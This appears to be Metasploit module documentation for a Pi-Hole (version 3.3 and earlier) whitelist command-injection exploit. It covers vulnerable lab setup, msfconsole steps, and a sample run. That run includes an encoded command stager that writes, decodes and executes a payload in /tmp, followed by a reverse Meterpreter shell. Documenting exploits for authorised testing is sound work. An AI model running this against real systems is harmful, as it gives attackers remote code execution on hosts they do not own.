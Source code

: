 ## Vulnerable Application

This exploits a command execution vulnerability in Pi-Hole <= 3.3. When adding a 
new domain to the whitelist, it is possible to chain a command to 
the domain that is run on the OS.

### Setup

Install Pi-Hole [Pi-Hole 3.2.1](https://github.com/pi-hole/pi-hole/releases/tag/v3.2.1)
with the following commands:

```
sudo git clone --depth=1 -b v3.2.1 https://github.com/pi-hole/pi-hole.git /etc/.pihole
# replace 'git clone' with 'git clone -b v3.2.1'
sudo nano /etc/.pihole/automated\ install/basic-install.sh
sudo /etc/.pihole/automated\ install/basic-install.sh
```

Pi-Hole attempts to install the latest versions of the software.  Modifying the git clone
command will force it to install the old AdminLTE and Pi-Hole versions.  However this
will make FTL fail to install.

Answer everything with the default.

Lastly, we need to create one file which wasn't made.

```
sudo touch /etc/pihole/GitHubVersions
```

This will be enough to make it exploitable, however the dashboard won't fully work since some
other components were installed which are too new for it to work with.

If you wish to install FTL, follow the [directions](https://docs.pi-hole.net/ftldns/compile/).
However, when cloning the FTL repo, add the flag `-b v2.13.1` to pull an age appropriate version.
Also, the service may not install correctly.  However simply running `sudo /usr/bin/pihole-FTL`
will start it successfully.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/unix/http/pihole_whitelist_exec```
  4. Do: ```set rhosts```
  4. Do: ```run```
  5. You should get a shell.

## Options

### Password

Password for the web interface.  Randomly set on install.  Use `pihole -a -p` to change/remove it.

## Scenarios

### Pi-Hole 3.2.1 with AdminLTE 3.2.1 on Ubuntu 18.04

  ```
  msf5 > use exploit/unix/http/pihole_whitelist_exec 
  msf5 exploit(unix/http/pihole_whitelist_exec) > set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  msf5 exploit(unix/http/pihole_whitelist_exec) > set verbose true
  verbose => true
  msf5 exploit(unix/http/pihole_whitelist_exec) > run
  
  [*] Started reverse TCP handler on 1.1.1.1:4444 
  [+] Version Detected: 3.2.1
  [*] Generated command stager: ["echo -n f0VMRgEBAQAAAAAAAAAAAAIAAwABAAAAVIAECDQAAAAAAAAAAAAAADQAIAABAAAAAAAAAAEAAAAAAAAAAIAECACABAjPAAAASgEAAAcAAAAAEAAAagpeMdv341NDU2oCsGaJ4c2Al1towKgCgGgCABFcieFqZlhQUVeJ4UPNgIXAeRlOdD1oogAAAFhqAGoFieMxyc2AhcB5vesnsge5ABAAAInjwesMweMMsH3NgIXAeBBbieGZsmqwA82AhcB4Av/huAEAAAC7AQAAAM2A>>'/tmp/DaQVx.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/QUFVT' < '/tmp/DaQVx.b64' ; chmod +x '/tmp/QUFVT' ; '/tmp/QUFVT' ; rm -f '/tmp/QUFVT' ; rm -f '/tmp/DaQVx.b64'"]
  [*] Using cookie: PHPSESSID=j8o7g4m3e30279850hi275mqhk;
  [*] Using token: OoSESvgJJEWq7mvYBEOJaa/6jyA0GRy56pRZvy93IlU=
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (980808 bytes) to 2.2.2.2
  [*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:44212) at 2020-05-13 23:25:19 -0400
  [*] Command Stager progress - 100.00% done (763/763 bytes)
  
  meterpreter > getuid
  Server username: no-user @ ubuntu1804 (uid=33, gid=33, euid=33, egid=33)
  meterpreter > sysinfo
  Computer     : 2.2.2.2
  OS           : Ubuntu 18.04 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```
